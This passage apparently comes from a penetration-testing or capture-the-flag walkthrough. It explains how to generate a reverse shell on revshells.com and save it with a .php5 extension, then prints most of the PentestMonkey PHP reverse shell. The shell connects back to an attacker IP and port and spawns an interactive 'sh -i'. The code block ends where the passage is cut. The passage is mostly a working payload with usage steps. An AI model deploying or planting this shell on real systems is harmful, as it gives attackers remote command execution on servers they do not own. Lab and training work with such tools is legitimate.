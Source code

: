 For shells I like to use [Reverse Shell Generator](https://www.revshells.com/). It has a list of prebuilt reverse, blind, MSFVenom, and Hoax Shells. Once on that page, first input your personal host IP and listening port. I tend to use 1234 as my listening port, but you can choose any port you'd like as long as it is not in use on your machine. Then scroll down or search until you ```PHP PentestMonkey``` download or copy and paste the shell into a file. Save the file something like shell.php5. 


```php
<?php
// php-reverse-shell - A Reverse Shell implementation in PHP. Comments stripped to slim it down. RE: https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php
// Copyright (C) 2007 pentestmonkey@pentestmonkey.net

set_time_limit (0);
$VERSION = "1.0";
$ip = '10.10.10.10';
$port = 1234;
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; sh -i';
$daemon = 0;
$debug = 0;

if (function_exists('pcntl_fork')) {
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

chdir("/");

umask(0);

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
```